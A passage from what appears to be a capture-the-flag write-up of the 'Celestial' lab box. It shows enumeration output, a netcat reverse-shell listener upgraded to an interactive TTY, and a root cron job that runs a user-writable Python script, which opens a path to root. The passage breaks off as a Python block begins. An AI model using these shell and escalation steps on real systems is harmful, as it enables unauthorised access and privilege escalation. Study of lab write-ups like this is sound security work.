-rw-r--r-- 1 root root 1.1K Jul 12  2016 systemd-journald-dev-log.socket
-rw-r--r-- 1 root root  842 Jul 12  2016 systemd-journald.socket
-rw-r--r-- 1 root root  591 Jul 12  2016 systemd-networkd.socket
-rw-r--r-- 1 root root  617 Jul 12  2016 systemd-rfkill.socket
-rw-r--r-- 1 root root  450 Jul 12  2016 systemd-tmpfiles-clean.timer
-rw-r--r-- 1 root root  578 Jul 12  2016 systemd-udevd-control.socket
-rw-r--r-- 1 root root  570 Jul 12  2016 systemd-udevd-kernel.socket
-rw-r--r-- 1 root root  436 Jul 12  2016 system.slice
-rw-r--r-- 1 root root  585 Jul 12  2016 system-update.target
-rw-r--r-- 1 root root  405 Jul 12  2016 timers.target
-rw-r--r-- 1 root root  395 Jul 12  2016 time-sync.target
-rw-r--r-- 1 root root  417 Jul 12  2016 umount.target
-rw-r--r-- 1 root root  392 Jul 12  2016 user.slice
-rw-r--r-- 1 root root  342 Jul 12  2016 getty-static.service
-rw-r--r-- 1 root root  153 Jul 12  2016 sigpwr-container-shutdown.service
-rw-r--r-- 1 root root  152 Jul 12  2016 systemd-networkd-resolvconf-update.path
-rw-r--r-- 1 root root  548 Jul 12  2016 systemd-networkd-resolvconf-update.service
-rw-r--r-- 1 root root  364 Jul 12  2016 NetworkManager-dispatcher.service
-rw-r--r-- 1 root root  631 Jul 12  2016 NetworkManager.service
-rw-r--r-- 1 root root  303 Jul 12  2016 NetworkManager-wait-online.service
-rw-r--r-- 1 root root  146 Jun 29  2016 snapd.frameworks-pre.target
-rw-r--r-- 1 root root  131 Jun 29  2016 snapd.frameworks.target
-rw-r--r-- 1 root root  196 Jun 29  2016 snapd.refresh.service
-rw-r--r-- 1 root root  273 Jun 29  2016 snapd.refresh.timer
-rw-r--r-- 1 root root  321 Jun 29  2016 snapd.service
-rw-r--r-- 1 root root  245 Jun 29  2016 snapd.socket
-rw-r--r-- 1 root root  197 Jun 16  2016 whoopsie.service
-rw-r--r-- 1 root root  285 Jun 16  2016 keyboard-setup.service
-rw-r--r-- 1 root root  239 Jun 16  2016 setvtrgb.service
-rw-r--r-- 1 root root  288 Jun 16  2016 console-setup.service
-rw-r--r-- 1 root root  451 Jun 15  2016 upower.service
-rw-r--r-- 1 root root  138 Jun  9  2016 fwupd-offline-update.service
-rw-r--r-- 1 root root  259 Jun  9  2016 fwupd.service
-rw-r--r-- 1 root root  254 Jun  1  2016 thermald.service
-rw-r--r-- 1 root root  189 May 26  2016 uuidd.service
-rw-r--r-- 1 root root  126 May 26  2016 uuidd.socket
-rw-r--r-- 1 root root  631 May 13  2016 accounts-daemon.service
-rw-r--r-- 1 root root  131 May 11  2016 apt-daily.service
-rw-r--r-- 1 root root  162 May 11  2016 apt-daily.timer
-rw-r--r-- 1 root root  412 May 10  2016 plymouth-halt.service
-rw-r--r-- 1 root root  426 May 10  2016 plymouth-kexec.service
-rw-r--r-- 1 root root  421 May 10  2016 plymouth-poweroff.service
-rw-r--r-- 1 root root  194 May 10  2016 plymouth-quit.service
-rw-r--r-- 1 root root  200 May 10  2016 plymouth-quit-wait.service
-rw-r--r-- 1 root root  244 May 10  2016 plymouth-read-write.service
-rw-r--r-- 1 root root  416 May 10  2016 plymouth-reboot.service
-rw-r--r-- 1 root root  532 May 10  2016 plymouth-start.service
-rw-r--r-- 1 root root  291 May 10  2016 plymouth-switch-root.service
-rw-r--r-- 1 root root  490 May 10  2016 systemd-ask-password-plymouth.path
-rw-r--r-- 1 root root  467 May 10  2016 systemd-ask-password-plymouth.service
-rw-r--r-- 1 root root  239 Apr 29  2016 gpu-manager.service
-rw-r--r-- 1 root root  545 Apr 27  2016 brltty.service
-rw-r--r-- 1 root root  429 Apr 27  2016 brltty-udev.service
-rw-r--r-- 1 root root  510 Apr 14  2016 alsa-restore.service
-rw-r--r-- 1 root root  483 Apr 14  2016 alsa-state.service
drwxr-xr-x 2 root root 4.0K Apr 12  2016 runlevel1.target.wants
drwxr-xr-x 2 root root 4.0K Apr 12  2016 runlevel2.target.wants
drwxr-xr-x 2 root root 4.0K Apr 12  2016 runlevel3.target.wants
drwxr-xr-x 2 root root 4.0K Apr 12  2016 runlevel4.target.wants
drwxr-xr-x 2 root root 4.0K Apr 12  2016 runlevel5.target.wants
-rw-r--r-- 1 root root  234 Apr  8  2016 acpid.service
-rw-r--r-- 1 root root  251 Apr  5  2016 cron.service
-rw-r--r-- 1 root root  290 Apr  5  2016 rsyslog.service
-rw-r--r-- 1 root root  506 Apr  4  2016 lightdm.service
-rw-r--r-- 1 root root  196 Apr  1  2016 udisks2.service
-rw-r--r-- 1 root root  491 Apr  1  2016 dbus.service
-rw-r--r-- 1 root root  106 Apr  1  2016 dbus.socket
-rw-r--r-- 1 root root  142 Mar 31  2016 apport-forward@.service
-rw-r--r-- 1 root root  225 Mar 31  2016 apport-forward.socket
-rw-r--r-- 1 root root  122 Mar 25  2016 cups.path
-rw-r--r-- 1 root root  175 Mar 25  2016 cups.service
-rw-r--r-- 1 root root  116 Mar 25  2016 cups.socket
-rw-r--r-- 1 root root  117 Mar 20  2016 fwupdate-cleanup.service
-rw-r--r-- 1 root root  376 Mar 10  2016 kerneloops.service
-rw-r--r-- 1 root root  571 Mar  7  2016 udev-configure-printer@.service
-rw-r--r-- 1 root root  167 Mar  3  2016 wacom-inputattach@.service
-rw-r--r-- 1 root root  384 Mar  1  2016 bluetooth.service
-rw-r--r-- 1 root root  134 Feb 19  2016 failsafe-graphical.target
-rw-r--r-- 1 root root  232 Feb 19  2016 failsafe-x.service
-rw-r--r-- 1 root root  289 Feb 18  2016 unattended-upgrades.service
-rw-r--r-- 1 root root  115 Feb  9  2016 acpid.socket
-rw-r--r-- 1 root root  115 Feb  9  2016 acpid.path
-rw-r--r-- 1 root root  207 Jan 27  2016 pppd-dns.service
-rw-r--r-- 1 root root  497 Jan 24  2016 ifup@.service
-rw-r--r-- 1 root root  266 Jan 19  2016 wpa_supplicant.service
-rw-r--r-- 1 root root  182 Jan 14  2016 polkitd.service
-rw-r--r-- 1 root root  722 Jan 13  2016 networking.service
-rw-r--r-- 1 root root  183 Jan  4  2016 usbmuxd.service
-rw-r--r-- 1 root root 1.1K Nov 24  2015 avahi-daemon.service
-rw-r--r-- 1 root root  874 Nov 24  2015 avahi-daemon.socket
-rw-r--r-- 1 root root  298 Nov  6  2015 colord.service
-rw-r--r-- 1 root root  268 Nov  4  2015 ModemManager.service
-rw-r--r-- 1 root root 1.1K Oct 26  2015 rtkit-daemon.service
-rw-r--r-- 1 root root  428 Oct 23  2015 dns-clean.service
-rw-r--r-- 1 root root  178 Oct  5  2015 usb_modeswitch@.service
-rw-r--r-- 1 root root  225 Jun 26  2015 cups-browsed.service
-rw-r--r-- 1 root root  395 Jun  3  2015 resolvconf.service
-rw-r--r-- 1 root root  790 Jun  1  2015 friendly-recovery.service
-rw-r--r-- 1 root root  309 Apr 25  2015 saned@.service
-rw-r--r-- 1 root root  241 Mar  3  2015 ufw.service
-rw-r--r-- 1 root root  250 Feb 24  2015 ureadahead-stop.service
-rw-r--r-- 1 root root  242 Feb 24  2015 ureadahead-stop.timer
-rw-r--r-- 1 root root  401 Feb 24  2015 ureadahead.service
-rw-r--r-- 1 root root  283 Dec 28  2014 anacron-resume.service
-rw-r--r-- 1 root root  183 Dec 28  2014 anacron.service
-rw-r--r-- 1 root root  132 Dec 12  2014 saned.socket
-rw-r--r-- 1 root root  188 Feb 24  2014 rsync.service

/lib/systemd/system/display-manager.service.d:
total 4.0K
-rw-r--r-- 1 root root 110 Feb 19  2016 xdiagnose.conf

/lib/systemd/system/system-update.target.wants:
total 0
lrwxrwxrwx 1 root root 31 Sep 19  2017 fwupd-offline-update.service -> ../fwupd-offline-update.service

/lib/systemd/system/basic.target.wants:
total 0
lrwxrwxrwx 1 root root 23 Sep 19  2017 alsa-restore.service -> ../alsa-restore.service
lrwxrwxrwx 1 root root 21 Sep 19  2017 alsa-state.service -> ../alsa-state.service

/lib/systemd/system/halt.target.wants:
total 0
lrwxrwxrwx 1 root root 24 Sep 19  2017 plymouth-halt.service -> ../plymouth-halt.service

/lib/systemd/system/initrd-switch-root.target.wants:
total 0
lrwxrwxrwx 1 root root 25 Sep 19  2017 plymouth-start.service -> ../plymouth-start.service
lrwxrwxrwx 1 root root 31 Sep 19  2017 plymouth-switch-root.service -> ../plymouth-switch-root.service

/lib/systemd/system/kexec.target.wants:
total 0
lrwxrwxrwx 1 root root 25 Sep 19  2017 plymouth-kexec.service -> ../plymouth-kexec.service

/lib/systemd/system/multi-user.target.wants:
total 0
lrwxrwxrwx 1 root root 15 Sep 19  2017 dbus.service -> ../dbus.service
lrwxrwxrwx 1 root root 15 Sep 19  2017 getty.target -> ../getty.target
lrwxrwxrwx 1 root root 24 Sep 19  2017 plymouth-quit.service -> ../plymouth-quit.service
lrwxrwxrwx 1 root root 29 Sep 19  2017 plymouth-quit-wait.service -> ../plymouth-quit-wait.service
lrwxrwxrwx 1 root root 33 Sep 19  2017 systemd-ask-password-wall.path -> ../systemd-ask-password-wall.path
lrwxrwxrwx 1 root root 25 Sep 19  2017 systemd-logind.service -> ../systemd-logind.service
lrwxrwxrwx 1 root root 39 Sep 19  2017 systemd-update-utmp-runlevel.service -> ../systemd-update-utmp-runlevel.service
lrwxrwxrwx 1 root root 32 Sep 19  2017 systemd-user-sessions.service -> ../systemd-user-sessions.service

/lib/systemd/system/poweroff.target.wants:
total 0
lrwxrwxrwx 1 root root 28 Sep 19  2017 plymouth-poweroff.service -> ../plymouth-poweroff.service
lrwxrwxrwx 1 root root 39 Sep 19  2017 systemd-update-utmp-runlevel.service -> ../systemd-update-utmp-runlevel.service

/lib/systemd/system/reboot.target.wants:
total 0
lrwxrwxrwx 1 root root 26 Sep 19  2017 plymouth-reboot.service -> ../plymouth-reboot.service
lrwxrwxrwx 1 root root 39 Sep 19  2017 systemd-update-utmp-runlevel.service -> ../systemd-update-utmp-runlevel.service

/lib/systemd/system/sysinit.target.wants:
total 0
lrwxrwxrwx 1 root root 36 Sep 19  2017 systemd-machine-id-commit.service -> ../systemd-machine-id-commit.service
lrwxrwxrwx 1 root root 31 Sep 19  2017 systemd-modules-load.service -> ../systemd-modules-load.service
lrwxrwxrwx 1 root root 30 Sep 19  2017 systemd-random-seed.service -> ../systemd-random-seed.service
lrwxrwxrwx 1 root root 25 Sep 19  2017 systemd-sysctl.service -> ../systemd-sysctl.service
lrwxrwxrwx 1 root root 37 Sep 19  2017 systemd-tmpfiles-setup-dev.service -> ../systemd-tmpfiles-setup-dev.service
lrwxrwxrwx 1 root root 33 Sep 19  2017 systemd-tmpfiles-setup.service -> ../systemd-tmpfiles-setup.service
lrwxrwxrwx 1 root root 24 Sep 19  2017 systemd-udevd.service -> ../systemd-udevd.service
lrwxrwxrwx 1 root root 31 Sep 19  2017 systemd-udev-trigger.service -> ../systemd-udev-trigger.service
lrwxrwxrwx 1 root root 30 Sep 19  2017 systemd-update-utmp.service -> ../systemd-update-utmp.service
lrwxrwxrwx 1 root root 24 Sep 19  2017 console-setup.service -> ../console-setup.service
lrwxrwxrwx 1 root root 20 Sep 19  2017 cryptsetup.target -> ../cryptsetup.target
lrwxrwxrwx 1 root root 22 Sep 19  2017 dev-hugepages.mount -> ../dev-hugepages.mount
lrwxrwxrwx 1 root root 19 Sep 19  2017 dev-mqueue.mount -> ../dev-mqueue.mount
lrwxrwxrwx 1 root root 25 Sep 19  2017 keyboard-setup.service -> ../keyboard-setup.service
lrwxrwxrwx 1 root root 28 Sep 19  2017 kmod-static-nodes.service -> ../kmod-static-nodes.service
lrwxrwxrwx 1 root root 30 Sep 19  2017 plymouth-read-write.service -> ../plymouth-read-write.service
lrwxrwxrwx 1 root root 25 Sep 19  2017 plymouth-start.service -> ../plymouth-start.service
lrwxrwxrwx 1 root root 36 Sep 19  2017 proc-sys-fs-binfmt_misc.automount -> ../proc-sys-fs-binfmt_misc.automount
lrwxrwxrwx 1 root root 19 Sep 19  2017 setvtrgb.service -> ../setvtrgb.service
lrwxrwxrwx 1 root root 32 Sep 19  2017 sys-fs-fuse-connections.mount -> ../sys-fs-fuse-connections.mount
lrwxrwxrwx 1 root root 26 Sep 19  2017 sys-kernel-config.mount -> ../sys-kernel-config.mount
lrwxrwxrwx 1 root root 25 Sep 19  2017 sys-kernel-debug.mount -> ../sys-kernel-debug.mount
lrwxrwxrwx 1 root root 36 Sep 19  2017 systemd-ask-password-console.path -> ../systemd-ask-password-console.path
lrwxrwxrwx 1 root root 25 Sep 19  2017 systemd-binfmt.service -> ../systemd-binfmt.service
lrwxrwxrwx 1 root root 30 Sep 19  2017 systemd-hwdb-update.service -> ../systemd-hwdb-update.service
lrwxrwxrwx 1 root root 27 Sep 19  2017 systemd-journald.service -> ../systemd-journald.service
lrwxrwxrwx 1 root root 32 Sep 19  2017 systemd-journal-flush.service -> ../systemd-journal-flush.service

/lib/systemd/system/sockets.target.wants:
total 0
lrwxrwxrwx 1 root root 14 Sep 19  2017 dbus.socket -> ../dbus.socket
lrwxrwxrwx 1 root root 25 Sep 19  2017 systemd-initctl.socket -> ../systemd-initctl.socket
lrwxrwxrwx 1 root root 32 Sep 19  2017 systemd-journald-audit.socket -> ../systemd-journald-audit.socket
lrwxrwxrwx 1 root root 34 Sep 19  2017 systemd-journald-dev-log.socket -> ../systemd-journald-dev-log.socket
lrwxrwxrwx 1 root root 26 Sep 19  2017 systemd-journald.socket -> ../systemd-journald.socket
lrwxrwxrwx 1 root root 31 Sep 19  2017 systemd-udevd-control.socket -> ../systemd-udevd-control.socket
lrwxrwxrwx 1 root root 30 Sep 19  2017 systemd-udevd-kernel.socket -> ../systemd-udevd-kernel.socket

/lib/systemd/system/busnames.target.wants:
total 0
lrwxrwxrwx 1 root root 36 Sep 19  2017 org.freedesktop.hostname1.busname -> ../org.freedesktop.hostname1.busname
lrwxrwxrwx 1 root root 34 Sep 19  2017 org.freedesktop.locale1.busname -> ../org.freedesktop.locale1.busname
lrwxrwxrwx 1 root root 33 Sep 19  2017 org.freedesktop.login1.busname -> ../org.freedesktop.login1.busname
lrwxrwxrwx 1 root root 35 Sep 19  2017 org.freedesktop.network1.busname -> ../org.freedesktop.network1.busname
lrwxrwxrwx 1 root root 35 Sep 19  2017 org.freedesktop.resolve1.busname -> ../org.freedesktop.resolve1.busname
lrwxrwxrwx 1 root root 35 Sep 19  2017 org.freedesktop.systemd1.busname -> ../org.freedesktop.systemd1.busname
lrwxrwxrwx 1 root root 36 Sep 19  2017 org.freedesktop.timedate1.busname -> ../org.freedesktop.timedate1.busname

/lib/systemd/system/getty.target.wants:
total 0
lrwxrwxrwx 1 root root 23 Sep 19  2017 getty-static.service -> ../getty-static.service

/lib/systemd/system/graphical.target.wants:
total 0
lrwxrwxrwx 1 root root 39 Sep 19  2017 systemd-update-utmp-runlevel.service -> ../systemd-update-utmp-runlevel.service

/lib/systemd/system/local-fs.target.wants:
total 0
lrwxrwxrwx 1 root root 29 Sep 19  2017 systemd-remount-fs.service -> ../systemd-remount-fs.service

/lib/systemd/system/rc-local.service.d:
total 4.0K
-rw-r--r-- 1 root root 290 Jul 12  2016 debian.conf

/lib/systemd/system/rescue.target.wants:
total 0
lrwxrwxrwx 1 root root 39 Sep 19  2017 systemd-update-utmp-runlevel.service -> ../systemd-update-utmp-runlevel.service

/lib/systemd/system/resolvconf.service.wants:
total 0
lrwxrwxrwx 1 root root 42 Sep 19  2017 systemd-networkd-resolvconf-update.path -> ../systemd-networkd-resolvconf-update.path

/lib/systemd/system/sigpwr.target.wants:
total 0
lrwxrwxrwx 1 root root 36 Sep 19  2017 sigpwr-container-shutdown.service -> ../sigpwr-container-shutdown.service

/lib/systemd/system/systemd-timesyncd.service.d:
total 4.0K
-rw-r--r-- 1 root root 251 Jul 12  2016 disable-with-time-daemon.conf

/lib/systemd/system/timers.target.wants:
total 0
lrwxrwxrwx 1 root root 31 Sep 19  2017 systemd-tmpfiles-clean.timer -> ../systemd-tmpfiles-clean.timer

/lib/systemd/system/runlevel1.target.wants:
total 0

/lib/systemd/system/runlevel2.target.wants:
total 0

/lib/systemd/system/runlevel3.target.wants:
total 0

/lib/systemd/system/runlevel4.target.wants:
total 0

/lib/systemd/system/runlevel5.target.wants:
total 0

/lib/systemd/system-generators:
total 668K
-rwxr-xr-x 1 root root  71K Jul 12  2016 systemd-cryptsetup-generator
-rwxr-xr-x 1 root root  59K Jul 12  2016 systemd-dbus1-generator
-rwxr-xr-x 1 root root  43K Jul 12  2016 systemd-debug-generator
-rwxr-xr-x 1 root root  79K Jul 12  2016 systemd-fstab-generator
-rwxr-xr-x 1 root root  39K Jul 12  2016 systemd-getty-generator
-rwxr-xr-x 1 root root 119K Jul 12  2016 systemd-gpt-auto-generator
-rwxr-xr-x 1 root root  39K Jul 12  2016 systemd-hibernate-resume-generator
-rwxr-xr-x 1 root root  39K Jul 12  2016 systemd-insserv-generator
-rwxr-xr-x 1 root root  35K Jul 12  2016 systemd-rc-local-generator
-rwxr-xr-x 1 root root  31K Jul 12  2016 systemd-system-update-generator
-rwxr-xr-x 1 root root 103K Jul 12  2016 systemd-sysv-generator

/lib/systemd/system-sleep:
total 8.0K
-rwxr-xr-x 1 root root  92 Mar 17  2016 hdparm
-rwxr-xr-x 1 root root 182 Oct 26  2015 wpasupplicant

/lib/systemd/network:
total 12K
-rw-r--r-- 1 root root 404 Jul 12  2016 80-container-host0.network
-rw-r--r-- 1 root root 482 Jul 12  2016 80-container-ve.network
-rw-r--r-- 1 root root  80 Jul 12  2016 99-default.link

/lib/systemd/system-preset:
total 4.0K
-rw-r--r-- 1 root root 869 Jul 12  2016 90-systemd.preset

/lib/systemd/system-shutdown:
total 0


### SOFTWARE #############################################
[-] Sudo version:
Sudo version 1.8.16


### INTERESTING FILES ####################################
[-] Useful file locations:
/bin/nc
/bin/netcat
/usr/bin/wget
/usr/bin/gcc
/usr/bin/curl


[-] Installed compilers:
ii  g++                                        4:5.3.1-1ubuntu1                                            amd64        GNU C++ compiler
ii  g++-5                                      5.4.0-6ubuntu1~16.04.1                                      amd64        GNU C++ compiler
ii  gcc                                        4:5.3.1-1ubuntu1                                            amd64        GNU C compiler
ii  gcc-5                                      5.4.0-6ubuntu1~16.04.1                                      amd64        GNU C compiler
ii  hardening-includes                         2.7ubuntu2                                                  all          Makefile for enabling compiler flags for security hardening
ii  libllvm3.8:amd64                           1:3.8-2ubuntu3                                              amd64        Modular compiler and toolchain technologies, runtime library
ii  libxkbcommon0:amd64                        0.5.0-1ubuntu2                                              amd64        library interface to the XKB compiler - shared library


[-] Can we read/write sensitive files:
-rw-r--r-- 1 root root 2234 Sep 19  2017 /etc/passwd
-rw-r--r-- 1 root root 967 Sep 19  2017 /etc/group
-rw-r--r-- 1 root root 575 Oct 22  2015 /etc/profile
-rw-r----- 1 root shadow 1244 Sep 19  2017 /etc/shadow


[-] Can't search *.conf files as no keyword was entered

[-] Can't search *.php files as no keyword was entered

[-] Can't search *.log files as no keyword was entered

[-] Can't search *.ini files as no keyword was entered

[-] All *.conf files in /etc (recursive 1 level):
-rw-r--r-- 1 root root 14867 Apr 12  2016 /etc/ltrace.conf
-rw-r--r-- 1 root root 23444 Apr 28  2016 /etc/brltty.conf
-rw-r--r-- 1 root root 2969 Nov 10  2015 /etc/debconf.conf
-rw-r--r-- 1 root root 112 Jan 10  2014 /etc/apg.conf
-rw-r--r-- 1 root root 703 May  6  2015 /etc/logrotate.conf
-rw-r--r-- 1 root root 191 Jan 18  2016 /etc/libaudit.conf
-rw-r--r-- 1 root root 1308 Mar 10  2016 /etc/kerneloops.conf
-rw-r--r-- 1 root root 323 Apr  1  2016 /etc/fwupd.conf
-rw-r--r-- 1 root root 771 Mar  6  2015 /etc/insserv.conf
-rw-r--r-- 1 root root 34 Jan 27  2016 /etc/ld.so.conf
-rw-r--r-- 1 root root 624 Aug  8  2007 /etc/mtools.conf
-rw-r--r-- 1 root root 529 Jul 19  2016 /etc/nsswitch.conf
-rw-r--r-- 1 root root 552 Mar 16  2016 /etc/pam.conf
-rw-r--r-- 1 root root 389 Apr 18  2016 /etc/appstream.conf
-rw-r--r-- 1 root root 10368 Oct  2  2015 /etc/sensors3.conf
-rw-r--r-- 1 root root 92 Oct 22  2015 /etc/host.conf
-rw-r--r-- 1 root root 1371 Jan 27  2016 /etc/rsyslog.conf
-rw-r--r-- 1 root root 1803 Nov  6  2015 /etc/signond.conf
-rw-r--r-- 1 root root 338 Nov 18  2014 /etc/updatedb.conf
-rw-r--r-- 1 root root 3028 Jul 19  2016 /etc/adduser.conf
-rw-r--r-- 1 root root 1018 Oct  5  2015 /etc/usb_modeswitch.conf
-rw-r--r-- 1 root root 7788 Jul 19  2016 /etc/ca-certificates.conf
-rw-r--r-- 1 root root 604 Jul  2  2015 /etc/deluser.conf
-rw-r--r-- 1 root root 4781 Mar 17  2016 /etc/hdparm.conf
-rw-rw-r-- 1 root root 350 Sep 19  2017 /etc/popularity-contest.conf
-rw-r--r-- 1 root root 2084 Sep  6  2015 /etc/sysctl.conf
-rw-r--r-- 1 root root 7649 Jul 19  2016 /etc/pnm2ppa.conf
-rw-r--r-- 1 root root 967 Oct 30  2015 /etc/mke2fs.conf
-rw-r--r-- 1 root root 1260 Mar 16  2016 /etc/ucf.conf
-rw-r--r-- 1 root root 27 Jan  7  2015 /etc/libao.conf
-rw-r--r-- 1 root root 110 Sep 19  2017 /etc/kernel-img.conf
-rw-r--r-- 1 root root 280 Jun 20  2014 /etc/fuse.conf
-rw-r--r-- 1 root root 2584 Feb 18  2016 /etc/gai.conf


[-] Current user's history files:
-rw------- 1 sun sun  1 Mar  4 15:24 /home/sun/.bash_history
-rw-rw-r-- 1 sun sun 20 Sep 19  2017 /home/sun/.node_repl_history


[-] Location and contents (if accessible) of .bash_history file(s):
/home/sun/.bash_history


[-] Any interesting mail in /var/mail:
total 8
drwxrwsr-x  2 root mail 4096 Jul 19  2016 .
drwxr-xr-x 14 root root 4096 Jul 19  2016 ..


### SCAN COMPLETE ####################################
$
```

[`Upgrading simple shells to fully interactive TTYs`](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)

```sh
$ python -c 'import pty; pty.spawn("/bin/bash")'
sun@sun:~/Desktop$ ^Z
[1]+  Stopped                 nc -nlvp 1234
root@kali:~/celestail# echo $TERM
xterm-256color
root@kali:~/celestail# stty -a
speed 38400 baud; rows 51; columns 204; line = 0;
intr = ^C; quit = ^\; erase = ^?; kill = ^U; eof = ^D; eol = M-^?; eol2 = M-^?; swtch = <undef>; start = ^Q; stop = ^S; susp = ^Z; rprnt = ^R; werase = ^W; lnext = ^V; discard = ^O; min = 1; time = 0;
-parenb -parodd -cmspar cs8 -hupcl -cstopb cread -clocal -crtscts
-ignbrk -brkint -ignpar -parmrk -inpck -istrip -inlcr -igncr icrnl ixon -ixoff -iuclc ixany imaxbel iutf8
opost -olcuc -ocrnl onlcr -onocr -onlret -ofill -ofdel nl0 cr0 tab0 bs0 vt0 ff0
isig icanon iexten echo echoe echok -echonl -noflsh -xcase -tostop -echoprt echoctl echoke -flusho -extproc
root@kali:~/celestail# stty raw -echo
root@kali:~/celestail# nc -nlvp 1234
                                    reset
reset: unknown terminal type unknown
Terminal type? xterm-256color

sun@sun:~/Desktop$ stty rows 51 columns 204
sun@sun:~/Desktop$
```

```sh
sun@sun:~/Desktop$ cd /var/log/
sun@sun:/var/log$ ls -l
total 2604
-rw-r--r-- 1 root              root       0 Nov  8  2017 alternatives.log
-rw-r--r-- 1 root              root   34278 Sep 19  2017 alternatives.log.1
drwxr-xr-x 2 root              root    4096 Aug 26 20:09 apt
-rw-r----- 1 syslog            adm   388518 Sep  1 14:35 auth.log
-rw-r----- 1 syslog            adm    33517 Aug 26 20:06 auth.log.1
-rw-r----- 1 syslog            adm    27176 Mar  4 09:35 auth.log.2.gz
-rw-r----- 1 syslog            adm    26535 Nov 19  2017 auth.log.3.gz
-rw-r----- 1 syslog            adm    15132 Nov 12  2017 auth.log.4.gz
-rw-r--r-- 1 root              root   57457 Jul 19  2016 bootstrap.log
-rw-rw---- 1 root              utmp       0 Sep  1 07:35 btmp
-rw-rw---- 1 root              utmp       0 Aug 26 20:09 btmp.1
drwxr-xr-x 2 root              root    4096 Sep  1 07:35 cups
drwxr-xr-x 2 root              root    4096 Apr 26  2016 dist-upgrade
-rw-r----- 1 root              adm       31 Jul 19  2016 dmesg
-rw-r--r-- 1 root              root       0 Aug 26 20:09 dpkg.log
-rw-r--r-- 1 root              root    5332 Mar  4 15:17 dpkg.log.1
-rw-r--r-- 1 root              root  109042 Sep 19  2017 dpkg.log.2.gz
-rw-r--r-- 1 root              root   32032 Sep 19  2017 faillog
-rw-r--r-- 1 root              root    4125 Sep 19  2017 fontconfig.log
drwxr-xr-x 2 root              root    4096 Jul 19  2016 fsck
-rw-r--r-- 1 root              root    1849 Aug 26 20:04 gpu-manager.log
drwxr-xr-x 3 root              root    4096 Jul 19  2016 hp
drwxrwxr-x 2 root              root    4096 Sep 19  2017 installer
-rw-r----- 1 syslog            adm     1770 Aug 30 06:48 kern.log
-rw-r----- 1 syslog            adm  1051094 Aug 26 20:04 kern.log.1
-rw-r----- 1 syslog            adm    67850 Mar  4 09:30 kern.log.2.gz
-rw-r----- 1 syslog            adm   186094 Nov  8  2017 kern.log.3.gz
-rw-rw-r-- 1 root              utmp  292292 Sep 19  2017 lastlog
drwxr-xr-x 2 root              root    4096 Aug 26 20:09 lightdm
drwx------ 2 speech-dispatcher root    4096 Feb 18  2016 speech-dispatcher
-rw-r----- 1 syslog            adm    56684 Sep  1 14:38 syslog
-rw-r----- 1 syslog            adm   106809 Sep  1 07:35 syslog.1
-rw-r----- 1 syslog            adm     5369 Aug 31 07:35 syslog.2.gz
-rw-r----- 1 syslog            adm     5680 Aug 30 07:35 syslog.3.gz
-rw-r----- 1 syslog            adm     7049 Aug 29 07:35 syslog.4.gz
-rw-r----- 1 syslog            adm     5808 Aug 28 07:35 syslog.5.gz
-rw-r----- 1 syslog            adm     3365 Aug 27 07:35 syslog.6.gz
-rw-r----- 1 syslog            adm   209076 Aug 26 20:09 syslog.7.gz
drwxr-x--- 2 root              adm     4096 Sep  1 07:35 unattended-upgrades
drwxr-xr-x 2 root              root    4096 May 19  2016 upstart
-rw-r--r-- 1 root              root    1758 Mar  7 08:33 vmware-vmsvc.1.log
-rw-r--r-- 1 root              root    1696 Mar  7 08:33 vmware-vmsvc.2.log
-rw-r--r-- 1 root              root    1696 Mar  4 15:41 vmware-vmsvc.3.log
-rw-r--r-- 1 root              root    1107 Aug 26 20:04 vmware-vmsvc.log
-rw-rw-r-- 1 root              utmp       0 Sep  1 07:35 wtmp
-rw-rw-r-- 1 root              utmp       0 Aug 26 20:09 wtmp.1
-rw-r--r-- 1 root              root   33356 Aug 26 20:05 Xorg.0.log
-rw-r--r-- 1 root              root   34670 Mar  7 08:33 Xorg.0.log.old
sun@sun:/var/log$
```

```sh
sun@sun:/var/log$ tail -10 syslog
Sep  1 14:18:00 sun systemd[1]: proc-sys-fs-binfmt_misc.automount: Got automount request for /proc/sys/fs/binfmt_misc, triggered by 7965 (find)
Sep  1 14:18:00 sun systemd[1]: Mounting Arbitrary Executable File Formats File System...
Sep  1 14:18:00 sun systemd[1]: Mounted Arbitrary Executable File Formats File System.
Sep  1 14:20:01 sun CRON[8091]: (root) CMD (python /home/sun/Documents/script.py > /home/sun/output.txt; cp /root/script.py /home/sun/Documents/script.py; chown sun:sun /home/sun/Documents/script.py; chattr -i /home/sun/Documents/script.py; touch -d "$(date -R -r /home/sun/Documents/user.txt)" /home/sun/Documents/script.py)
Sep  1 14:25:01 sun CRON[8110]: (root) CMD (python /home/sun/Documents/script.py > /home/sun/output.txt; cp /root/script.py /home/sun/Documents/script.py; chown sun:sun /home/sun/Documents/script.py; chattr -i /home/sun/Documents/script.py; touch -d "$(date -R -r /home/sun/Documents/user.txt)" /home/sun/Documents/script.py)
Sep  1 14:30:01 sun CRON[8130]: (root) CMD (python /home/sun/Documents/script.py > /home/sun/output.txt; cp /root/script.py /home/sun/Documents/script.py; chown sun:sun /home/sun/Documents/script.py; chattr -i /home/sun/Documents/script.py; touch -d "$(date -R -r /home/sun/Documents/user.txt)" /home/sun/Documents/script.py)
Sep  1 14:30:01 sun CRON[8131]: (sun) CMD (nodejs /home/sun/server.js >/dev/null 2>&1)
Sep  1 14:35:01 sun CRON[8160]: (root) CMD (python /home/sun/Documents/script.py > /home/sun/output.txt; cp /root/script.py /home/sun/Documents/script.py; chown sun:sun /home/sun/Documents/script.py; chattr -i /home/sun/Documents/script.py; touch -d "$(date -R -r /home/sun/Documents/user.txt)" /home/sun/Documents/script.py)
Sep  1 14:38:25 sun crontab[8187]: (sun) LIST (sun)
Sep  1 14:40:01 sun CRON[8200]: (root) CMD (python /home/sun/Documents/script.py > /home/sun/output.txt; cp /root/script.py /home/sun/Documents/script.py; chown sun:sun /home/sun/Documents/script.py; chattr -i /home/sun/Documents/script.py; touch -d "$(date -R -r /home/sun/Documents/user.txt)" /home/sun/Documents/script.py)
sun@sun:/var/log$
```

```sh
sun@sun:/var/log$ cd /home/sun/Documents/
sun@sun:~/Documents$ ls -l
total 8
-rw-rw-r-- 1 sun sun 29 Sep 21  2017 script.py
-rw-rw-r-- 1 sun sun 33 Sep 21  2017 user.txt
sun@sun:~/Documents$ cat script.py
print "Script is running..."
sun@sun:~/Documents$
```

[`Reverse Shell Cheat Sheet`](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

```python
